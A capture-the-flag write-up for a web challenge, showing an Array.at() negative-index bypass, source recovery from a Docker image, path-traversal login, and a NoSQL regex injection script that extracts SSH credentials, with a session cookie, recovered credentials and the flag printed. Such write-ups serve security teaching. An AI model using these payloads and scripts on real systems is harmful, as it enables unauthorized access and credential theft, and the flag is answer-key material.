

# Welcome Christmas

### Category

Web

### Description


### Solution

We recover a link to the next challenge from the previous one, so let's reach it "http://3.141.109.49".

Here, only one endpoint is available :


So we have to reach the url "http://3.141.109.49/jutsu/1337", but as you can see :


It will be too simple ! So let's bruteforce a little bit and see if we can recover some informations, on "http://3.141.109.49/jutsu/1", we recover a part of the source code :

```js
let id = parseInt(request.params.id, 10);
    if (id &gt; 9) {
            return res.render("jutsu",{jutsu:"Access Denied sorry"})
    }
const jutsu = articles.at(id) ?? {
        jutsu: "Not found";
};
return res.render("jutsu",jutsu);
```

Here, we conclude that it will not be possible to read a file with an id greater than 9, which is very annoying.

But, in this challenge, a hint was present and said that in total, there were 10000 jutsus. If you paid attention to the source code, you can see that it uses the at() function on the jutsus array, but in this function, if you pass a negative number, it will fetch the corresponding array element. For us, we want to have the element 1337, so we will go and look for the element -8663 :


And it doesn't work, because there is a filter that prevents us from passing the "-" character at the beginning.

But, in javascript, there are some characters that are not interpreted by the parseInt() function, example :


But this character (0x0a) is also forbidden. Here, I'll start with a bruteforce approach, to see if a character will be accepted or not :

```js
for(var i=0; i<10000; i++){
    res = parseInt(String.fromCharCode(i)+"-8663",10)
    if(res == -8663){
        fetch("http://3.141.109.49/jutsu/"+String.fromCharCode(i)+"-8663")
        .then(
            response => response.text()
        ).then(
            text => function(){
                if(text.includes("Hacking") == false) console.log(test)
            }
        )
    }
  }
```

We recover the page which contains informations to continue the challenge :


"It's called Dockeru", here we can deduce that the credentials provided to us are for the site "docker hub", allowing to host docker images. 

We also know that the image is called forum, so we will log in with docker in command line, to then pull this image.



Here, there is a problem, indeed, I want to retrieve the source code, but the docker does not want to start, so I will simply create a Dockerfile based on this image, and run a /bin/sh to retrieve the file "index.js" :

```
FROM shisuiyogo/forum

CMD "/bin/sh"
```

Here is the content of the "index.js" file, but I decided to remove the two endpoints related to jutsus because they are not useful anymore in this part of the challenge :

```js
const express = require('express');
const app=express();
const { MongoClient, ObjectID } = require('mongodb');
const MONGO_URL=process.env.MONGO_URL;
const SECRET=process.env.SECRET;
const bodyParser = require('body-parser');
const got=require('got') ;
const session=require("express-session");
const ejs=require("ejs");
app.use(bodyParser.urlencoded({extended:false}));
app.use(bodyParser.json());
app.use(session({secret:SECRET,resave:false,saveUninitialized:false}))
app.use(express.static('static'));
app.set('views', './views');
app.set('view engine', 'ejs');
const client = new MongoClient(MONGO_URL);

//Insert important infos in the DB
var services=[
{"Service":"web","username":"shisui","password":"Random","IP":"0000"},
{"Service":"web","username":"itachi","password":"Secure","IP":"127.0.0.1"},
{"Service":"ssh","username":process.env.USERNAME,"password":process.env.PASSWORD,"IP":process.env.IP},
{"Service":"net","username":"sasuke","password":"Random","IP":"0000"}
];
client.connect(function (err){
        if (err) return res.render("register",{error:"An unknown error has occured"});
        const db=client.db("uchiha");
        const collection=db.collection("services");
        collection.insertMany(services,function(err, res) {
                if (err) console.log(err);
                console.log("Number of documents inserted: " + res.insertedCount);
        });

});

app.get("/login",(req,res)=>{
        if(req.session.username){
                res.redirect(302,"/home");
        }
        else{
                return res.render("login",{error:""});
        }
})


app.post("/login",(req,res)=>{
        var username=req.body.username;
        if(username){
                got.get(`http://3.141.109.49/auth/${encodeURI(username)}/users`).then((resp)=>{
                if (resp.statusCode==200){
                        req.session.username=username;
                        return res.redirect(302,"/home");
                }
                else{
                        return res.render("login",{error:"Your username is wrong"});
                }
                }).catch((err)=>{return res.render("login",{error:"Your username is wrong"});});
        }
        else{
                return res.redirect(302,"/login");
        }

});

app.get("/home",(req,res)=>{
        if(req.session.username){
                return res.render("home",{"username":req.session.username});
        }
        else{
                res.redirect(302,"/login");
        }

});

app.get("/services",(req,res)=>{
        if(req.session.username){
                return res.render("service",{error:""});
        }
        else{
                return res.redirect(302,"/login");
        }
});

app.post("/services",(req,res)=>{
        if(req.session.username){
                if (req.body.service){
                        var query=JSON.parse(`{"Service":"${req.body.service}"}`);
                        client.connect(function(err){
                                if (err) return res.render("service",{error:"An unknown error has occured"});
                        const db=client.db("uchiha");
                        const collection=db.collection("services");
                        collection.findOne(query,(err,result)=>{
                                if (err) return res.render("service",{error:"An unknown error has occured"});
                                if (result) {
                                        return res.render("service",{error:"Service is UP"});
                                }
                                else{ return res.render("service",{error:"Service is Down"})};
                        });
                        });
                }
                else{
                        return res.render("service",{error:"An unknown error has occured"});

                }
        }

else { return res.redirect(302,"/login");}

});

//authentication
app.get("/auth/:username/users",(req,res)=>{
        if (req.params.username==process.env.REDACTED){
                return res.send("OK");
        }
        else{
                return res.sendStatus(202);
        }
}
)

app.listen(8000,"0.0.0.0");
console.log("Listening 8000 ..");
```

Here, from the first reading, I see the noSQL injection that there is on the endpoint in POST /services, which will allow us to retrieve the SSH credentials and the associated ip.

But for that, we need to be connected, and that is managed with the endpoint "/auth/:username/users". Here we have to notice an important thing, when we provide a username, it will use the "encodeURI" method, which allows to encode the characters in the URL so that they are valid. 

We must also remember that on the endpoint "/justu/:id", it will always return a valid return since if the jutsu does not exist it returns "Not Found", so we can pass that in username : "../../jutsu/", which will return a code 200, and thus will allow us to authenticate.

Perfect! We are authenticated, so we can go and attack the noSQL injection.

Here, we can see that our input is passed (unfiltered) in a JSON, so we will have to respect this format for our injection to work.

```js
var query=JSON.parse(`{"Service":"${req.body.service}"}`);
```

We wish to obtain a json of the form :
```
{"Service":"","username":"injection here"}
```

But, we can see that it adds at the end of the JSON (in hard) the characters "}.
However, in JSON, when a variable is declared twice, it is always the last value that counts, so here we can simply pass back the name of the service, without the double quote and the brace, which will allow us to craft a JSON with a valid injection. We thus obtain this payload (to be entered in the injectable field) :

```
","username":"injection here","Service":"SSH
```

Here I have created a script in python that allows to do the three injections at once (which is faster than doing it by hand) :

```py
import requests
import string
cookies = {"connect.sid":"s%3AZoyV6N_RNq4PJt-Cj4GKYhkijdki9imN.SpWyt5WCkZDiaAPetNX10Cgjcmz4gANu29wg9UqB%2FGM"}
url = "http://3.141.109.49/services"

username_size = 0
password_size = 0
ip_size = 0
ip = ""
username = ""
password = ""

for i in range(50):
    payload = 'ssh","username":{"$regex":"^.{'+str(i)+'}$"},"Service":"ssh'
    res = requests.post(url,cookies=cookies,data={"service":payload}).text
    if "Service is UP" in res:
        print(f"Username size is {i}")
        username_size = i
    payload = 'ssh","password":{"$regex":"^.{'+str(i)+'}$"},"Service":"ssh'
    res = requests.post(url,cookies=cookies,data={"service":payload}).text
    if "Service is UP" in res:
        print(f"Password size is {i}")
        password_size = i
    payload = 'ssh","IP":{"$regex":"^.{'+str(i)+'}$"},"Service":"ssh'
    res = requests.post(url,cookies=cookies,data={"service":payload}).text
    if "Service is UP" in res:
        print(f"IP size is {i}")
        ip_size = i
    
    if(password_size > 0 and username_size > 0 and ip_size > 0): break

for _ in range(username_size):
    for c in string.printable:
        payload = 'ssh","username":{"$regex":"^'+username+c+'.*"},"Service":"ssh'
        res = requests.post(url,cookies=cookies,data={"service":payload}).text
        if "Service is UP" in res:
            username += c
            break
print(f"Username is {username}")

for _ in range(password_size):
    for c in string.printable:
        payload = 'ssh","password":{"$regex":"^'+password+c+'.*"},"Service":"ssh'
        res = requests.post(url,cookies=cookies,data={"service":payload}).text
        if "Service is UP" in res:
            password += c
            break
print(f"Password is {password}")

for _ in range(ip_size):
    for c in ["0","1","2","3","4","5","6","7","8","9","."]:
        payload = 'ssh","IP":{"$regex":"^'+ip+c+'.*"},"Service":"ssh'
        res = requests.post(url,cookies=cookies,data={"service":payload}).text
        if "Service is UP" in res:
            ip += c
            break
print(f"IP is {ip}")
```

Once this script has finished running, we get our three pieces of information back :
```
Username is shisuiedo
Password is YogoshaxShisui
IP is 52.2.9.67
```

So we try to connect in SSH and ... it does not work. Here, you just have to do a little nmap to see that another SSH server is running on port 1337, and at the time of the connection :


### Flag

Yogosha{Uchiha_SerVicE_To_Kill_DanzO}